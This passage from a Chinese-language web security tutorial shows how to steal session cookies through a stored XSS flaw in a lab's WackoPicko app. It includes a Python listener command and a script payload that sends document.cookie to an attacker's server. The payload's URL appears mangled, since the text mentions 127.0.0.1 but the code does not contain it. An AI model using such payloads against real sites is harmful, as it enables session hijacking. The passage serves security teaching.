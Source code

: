 XSS 漏洞的一个直接影响是攻击者可以使用脚本代码窃取有效的会话 cookie，并使用它劫持用户的会话，如果 cookie 的参数没有配置好的话。

为了收集会话 cookie，攻击者需要运行一个 Web 服务器，并监听被注入应用程序发送的请求。在最基本的情况下，可以使用从基本的 Python HTTP 服务器到运行接收和存储 ID 甚至使用它们自动执行进一步攻击的正确的 Apache 或 nginx 服务器。为了演示起见，我们将使用基本的 Python 服务器。在 Kali Linux 的终端会话中执行以下命令以在端口`8000`上运行服务器：

```
python -m SimpleHttpServer 8000  
```

一旦服务器运行起来，你将在 OWASP BWA 虚拟机中的 WackoPicko Web 应用程序中利用一个持久性 XSS 漏洞。在 Kali Linux 中浏览到 WackoPicko，在 Guestbook 表单中提交以下代码的评论：

```
<script>document.write('<img src="img/'+document.cookie+' ">');</script> 
```

注意`127.0.0.1`是 Kali Linux 的本地 IP 地址。它应该被设置为接收 cookie 的服务器的地址：

![](img/00174.jpeg)

每次加载 Guestbook 页面时，它都会执行脚本并尝试从外部服务器获取图像。用于获取此类图像的请求在 URL 中包含会话 cookie，这将被记录在接收服务器上，如下面的截图所示：

![](img/00175.jpeg)

# 篡改网站
